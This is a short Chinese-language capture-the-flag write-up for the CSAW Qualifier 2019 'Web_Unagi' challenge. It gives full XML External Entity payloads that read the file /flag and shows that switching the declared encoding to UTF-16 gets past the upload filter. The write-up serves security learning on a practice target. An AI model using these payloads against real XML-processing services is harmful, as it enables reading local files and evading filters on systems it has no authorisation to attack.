

# \[CSAWQual 2019]Web\_Unagi

## \[CSAWQual 2019]Web\_Unagi

## 考点

* XXE
* UTF-16编码绕过XXE过滤

## wp

在Upload处看到上传文件的案例


点进去是个XML文档，这里文档的内容和User处的内容是一样的，并且User里面多了Intro元素，可以大胆猜测是XXE



XML格式在这**XML格式**


在about处提示flag在根目录下

先写一个XML文件上传

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE users [
<!ENTITY flag SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <flag>&flag;</flag>
    </user>
</users>
```

提示**WAF blocked uploaded file. Please try again**

需要进行绕过，编码改成`utf-16`即可

```xml
<?xml version="1.0" encoding="utf-16"?>
<!DOCTYPE users [
<!ENTITY flag SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <intro>&flag;</intro>
    </user>
</users>
```

发现是上传成功的

## 小结

1. XXE过滤可以使用编码绕过
